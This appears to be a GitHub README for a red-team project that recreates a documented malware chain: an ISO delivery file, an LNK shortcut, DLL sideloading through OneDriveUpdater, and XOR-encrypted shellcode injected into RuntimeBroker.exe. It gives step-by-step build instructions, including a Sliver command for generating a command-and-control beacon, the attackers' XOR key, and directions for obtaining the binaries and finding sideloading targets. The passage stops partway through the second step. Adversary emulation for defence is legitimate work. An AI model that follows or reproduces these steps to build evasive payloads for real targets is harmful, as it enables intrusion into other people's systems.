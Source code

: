 The initial payload starts as an ISO file. This was done most likely to bypass Mark-of-the-Web security feature. The following elements are inside the ISO file after it's mounted:  

| **TYPE**  | **NAME**                     | **DESCRIPTION**                                                                   |
|-----------|------------------------------|-----------------------------------------------------------------------------------|
|    ISO    |         Roshan_CV.iso        |                  ISO file that gets mounted and extracts payloads                 |
|    LNK    | Roshan-Bandara-CV-Dialog.lnk |       Windows shortcut file which starts OneDriveUpdater.exe through cmd.exe      |
|    EXE    |     OneDriverUpdater.exe     | A legitimate digitally signed Microsoft PE binary that is used to update OneDrive |
|    DLL    |          version.dll         |                         Malicious proxy DLL that gets DLL sideloaded              |
|    DLL    |          vresion.dll         |            Legitimate version.dll that is digitally signed by Microsoft           |
| Shellcode |        OneDrive.Update       |                    Shellcode that gets executed by version.dll                    |  

The payload gets executed through the following steps:  

1. The ISO file extracts all the payloads listed in the table above.  
2. Victim user clicks the LNK file. The LNK file starts cmd.exe which then starts the OneDriveUpdater.exe.  
3. OneDriveUpdater.exe sideloads the attacker's version.dll.  
4. version.dll reads the shellcode (OneDrive.Update) from disk, decrypts it using XOR, and injects the shellcode into theRuntimeBroker.exe process.  
5. Any legitimate function calls to the version.dll gets proxied to the legitimate version.dll library -vresion.dll  

Based on the details above, let's recreate the payloads.  

## Emulating the payload with no money and no skills  
### 1 - Shellcode 

The attackers used shellcode from Brute Ratel's C4 agent. This can be substituted with anything such as CobaltStrike or Meterpreter. In this case a Sliver beacon is generated:  
```
sliver > generate beacon --mtls <IP> -f shellcode --save /tmp/OneDrive.update
```

The shellcode has to be XOR encrypted. The attackers used a 28-byte key ```jikoewarfkmzsdlhfnuiwaejrpaw``` to encrypt the shellcode. In this repository there's a simple XOR encryption tool ```XOR-tool.py``` written in Python3 that can do that. Change the parameters and and run the tool inside the directory the shellcode resides.  

### 2 - OneDriveStandaloneUpdater and finding a sideloadable DLL  

You can obtain OneDriveStandaloneUpdater binary if you have the OneDrive installed on a machine at ```C:\Users\<user>\AppData\Local\Microsoft\OneDrive```. Alternatively, you can download it through malshare by the IoC hashes that was listed in the Unit42's blog post. After you've got the binary, place it in a your working directory.

The attackers used ```version.dll``` for their sideloading target. If you wish to use it, find it in ```c:\windows\system32``` and copy it in the same working directory. Alternatively, you can find your own sideloading target with a tool like [Spartacus](https://github.com/Accenture/Spartacus) or by running the binary with Procmon running in the background with the following filters:  
